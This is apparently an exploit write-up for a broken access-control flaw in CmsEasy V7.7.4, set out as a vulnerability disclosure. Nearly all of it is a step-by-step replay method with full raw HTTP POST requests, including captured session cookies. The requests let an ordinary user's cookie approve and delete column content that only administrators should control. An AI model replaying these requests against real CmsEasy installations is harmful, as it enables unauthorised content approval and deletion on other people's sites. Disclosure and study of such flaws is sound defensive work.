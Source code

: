 ## Information

```c
Exploit Title:CmsEasy.V7.7.4_20210522-Access control error
Exploit date:25.05.2021
Exploit Author:Al1ex@Heptagram
Vendor Homepage:https://www.cmseasy.cn/
Affect Version:V7.7.4_20210522
Description:Ordinary users can audit the column audit operations that only the administrator has the audit authority
```

## How to Exploit

**Step 1：Use ordinary users to log in cmseasy and add column content**

![add](img/add.png)

```
http://192.168.174.1/index.php?case=manage&act=list&manage=archive&needcheck=0
```

![info](img/info.png)

**Step 2：Use the administrator user to audit the login content submitted by the user, and use burpsuite to capture the package at the same time**

```
http://192.168.174.1/index.php?case=index&act=index&admin_dir=admin&site=default#index_connent
```

```java
POST /index.php?case=table&act=batch&table=archive&needcheck=1&admin_dir=admin&site=default&dfile=&page=1&catid= HTTP/1.1
Host: 192.168.174.1
Content-Length: 149
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.174.1
Referer: http://192.168.174.1/index.php?case=index&act=index&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=k79gumd09u825r1t3pruekkgsr; lockingfalsetest2=2; loginfalse=0; loginfalse74c6352c5a281ec5947783b8a186e225=2; login_password=972af30e54f47432662167c8a92badf8; login_username=admin
Connection: close

pxType=1&select%5B%5D=539&listorder%5B539%5D=0&copylangcatid=&langurlname=&copytolang=0&batch=check&attr1=0&catid=0&typeid=0&specialid=0&getto_page=1
```



![aduit](img/audit.png)

Then drop the packet and refresh the page to confirm that the previous packet has not changed the audit column

![check](img/check.png)

After that, access the test1 user's personal page information in another traffic device, and use burpsuite to capture the user's cookie

![cookie](img/cookie.png)

After that, the cookie of test1 is used to replace the cookie information captured in burpsuite 2.1 for checking the column packet and replaying the packet

```javascript
POST /index.php?case=table&act=batch&table=archive&needcheck=1&admin_dir=admin&site=default&dfile=&page=1&catid= HTTP/1.1
Host: 192.168.174.1
Content-Length: 149
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.174.1
Referer: http://192.168.174.1/index.php?case=index&act=index&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=r9t36f9b1qok6079c54h41q61f; Hm_lvt_eaa57ca47dacb4ad4f5a257001a3457c=1621906612; Hm_lpvt_eaa57ca47dacb4ad4f5a257001a3457c=1621933849; loginfalse=0; login_username=test1; login_password=972af30e54f47432662167c8a92badf8
Connection: close

pxType=1&select%5B%5D=539&listorder%5B539%5D=0&copylangcatid=&langurlname=&copytolang=0&batch=check&attr1=0&catid=0&typeid=0&specialid=0&getto_page=1
```



![exploit](img/exploit.png)

After refreshing the user's personal audit column page information, it is found that the audit has passed

![success](img/success.png)

![success2](img/success2.png)

![success](img/success3.png)

At the same time, users can delete the content of the audit column through ultra vires vulnerability

**a.First, delete any column with the administrator's permission, and use burpsuite to capture packages**

![delete](img/delete.png)

**b、Capture the communication packet, save a copy, and then dorp the current packet**

```javascript
POST /index.php?case=table&act=batch&table=archive&catid=16&admin_dir=admin&site=default&dfile=&page=1 HTTP/1.1
Host: 192.168.174.1
Content-Length: 270
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.174.1
Referer: http://192.168.174.1/index.php?case=index&act=index&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=k79gumd09u825r1t3pruekkgsr; lockingfalsetest2=2; loginfalse=0; loginfalse74c6352c5a281ec5947783b8a186e225=2; login_password=972af30e54f47432662167c8a92badf8; login_username=admin
Connection: close

pxType=1&listorder%5B20%5D=0&listorder%5B19%5D=0&listorder%5B18%5D=0&listorder%5B17%5D=0&listorder%5B16%5D=0&listorder%5B15%5D=0&select%5B%5D=538&listorder%5B538%5D=0&copylangcatid=&langurlname=&copytolang=0&batch=delete&attr1=0&catid=0&typeid=0&specialid=0&getto_page=1
```

![exist](img/exist.png)

After that, the cookie of test1 is used to replay the previous communication packet, and it is found that the column can be deleted successfully

![delete_success](img/delete_success.png)

Refresh the column management module of the administrator interface again, and you can find that the column has been successfully deleted

![success4](img/success4.png)

## Reference

https://www.cmseasy.cn/
